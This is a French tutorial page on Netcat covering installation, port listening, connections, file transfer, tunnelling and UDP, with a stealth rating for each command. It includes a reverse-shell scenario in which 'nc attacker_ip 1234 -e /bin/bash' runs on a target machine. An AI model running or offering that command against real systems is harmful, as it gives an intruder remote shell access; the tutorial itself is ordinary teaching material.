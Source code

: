 ```yaml
---
layout: default
title: "Netcat"
---
```


#### Introduction

Netcat, souvent surnommé "le couteau suisse des réseaux", est un outil polyvalent et puissant utilisé pour la gestion des connexions réseau. Il peut être utilisé pour diverses tâches telles que l'écoute sur des ports, la connexion à des hôtes distants, le transfert de fichiers, et la création de tunnels. Netcat supporte à la fois les protocoles TCP et UDP, ce qui le rend extrêmement utile dans des scénarios de dépannage réseau, de tests de pénétration et de développement. Ce tutoriel vous guidera à travers les étapes d'installation et d'utilisation de Netcat sur les systèmes Linux et Windows.

**Installation sur Linux**

1.  **Installer via apt (pour les distributions basées sur Debian)** :

    ```bash
    sudo apt update
    sudo apt install netcat
    ```

    * **Explication** :
      * `sudo apt update` : Met à jour la liste des paquets disponibles.
      * `sudo apt install netcat` : Installe Netcat via le gestionnaire de paquets `apt`.

**Installation sur Windows**

1. **Télécharger Netcat depuis nmap.org ou** [**netcat.sourceforge.net**](http://netcat.sourceforge.net/).
   * **Explication** : Téléchargez et décompressez l'archive, puis placez l'exécutable dans un répertoire accessible.

#### Utilisation de Base

**1. Écoute d’un Port**

1.  **Lancer Netcat pour écouter sur un port spécifique** :

    ```bash
    nc -l -p 1234
    ```

    * **Explication** :
      * `-l` : Met Netcat en mode écoute (listening).
      * `-p 1234` : Spécifie le port sur lequel Netcat écoutera les connexions (port 1234 dans cet exemple).
    * **Discrétion** : Moyenne. Écouter sur un port peut être détecté par les systèmes de surveillance réseau.
2.  **Exemple avec une adresse IP spécifique** :

    ```bash
    nc -l -p 1234 -s 192.168.1.100
    ```

    * **Explication** :
      * `-s 192.168.1.100` : Spécifie l'adresse IP sur laquelle écouter.
    * **Discrétion** : Moyenne. L'écoute sur une IP spécifique peut également être détectée.

**2. Connexion à un Hôte**

1.  **Se connecter à un serveur sur un port spécifique** :

    ```bash
    nc example.com 1234
    ```

    * **Explication** :
      * `example.com` : L'adresse de l'hôte auquel se connecter.
      * `1234` : Le port sur lequel se connecter.
    * **Discrétion** : Moyenne. La connexion à un hôte peut être détectée par les systèmes de surveillance réseau.
2.  **Connexion avec une adresse IP spécifique** :

    ```bash
    nc 192.168.1.100 1234
    ```

**3. Transfert de Fichiers**

1. **Envoyer un fichier à travers une connexion Netcat** :
   *   **Sur l’hôte récepteur (écouteur)** :

       ```bash
       nc -l -p 1234 > received_file.txt
       ```

       * **Explication** : Le fichier reçu sera enregistré en tant que `received_file.txt`.
       * **Discrétion** : Moyenne. Le transfert de fichiers peut être détecté.
   *   **Sur l’hôte émetteur (expéditeur)** :

       ```bash
       nc example.com 1234 < file_to_send.txt
       ```

       * **Explication** : `file_to_send.txt` est le fichier à envoyer.

**4. Création d’un Tunnel**

1.  **Créer un tunnel pour rediriger un port local vers un port distant** :

    ```bash
    nc -l -p 1234 | nc example.com 5678
    ```

    * **Explication** : Cette commande redirige le trafic du port 1234 local vers le port 5678 sur `example.com`.
    * **Discrétion** : Moyenne à faible. La création de tunnels peut être détectée par les systèmes de surveillance réseau.

**5. Scénario de Reverse Shell**

1.  **Écouter sur un port (sur l’attaquant)** :

    ```bash
    nc -l -p 1234
    ```
2.  **Lancer un reverse shell (sur la machine cible)** :

    ```bash
    nc attacker_ip 1234 -e /bin/bash
    ```

    * **Explication** :
      * `attacker_ip` : Adresse IP de l'attaquant.
      * `-e /bin/bash` : Exécute `/bin/bash` pour fournir un shell interactif.
    * **Discrétion** : Faible. Les reverse shells sont souvent détectés par les systèmes de sécurité.

#### Options Avancées

**1. Mode UDP**

1.  **Écouter sur un port UDP** :

    ```bash
    nc -u -l -p 1234
    ```

    * **Explication** :
      * `-u` : Utilise le protocole UDP au lieu de TCP.
    * **Discrétion** : Moyenne. Les connexions UDP peuvent être surveillées.
2.  **Se connecter via UDP** :

    ```bash
    nc -u example.com 1234
    ```

**2. Mode Verbose**

1.  **Activer le mode verbose pour plus d’informations** :

    ```bash
    nc -v -l -p 1234
    ```

    * **Explication** :
      * `-v` : Active le mode verbose pour afficher des informations supplémentaires.
    * **Discrétion** : Moyenne. Le mode verbose affiche des informations supplémentaires mais n'affecte pas la détection des connexions.

#### Discrétion

**Discrétion** : Moyenne à faible. Netcat est souvent utilisé pour des tâches légitimes, mais il peut également être utilisé pour des activités malveillantes telles que des reverse shells. Utilise Netcat de manière responsable et dans des environnements où tu as l'autorisation. Les connexions et les activités générées par Netcat peuvent être surveillées par les systèmes de sécurité réseau.
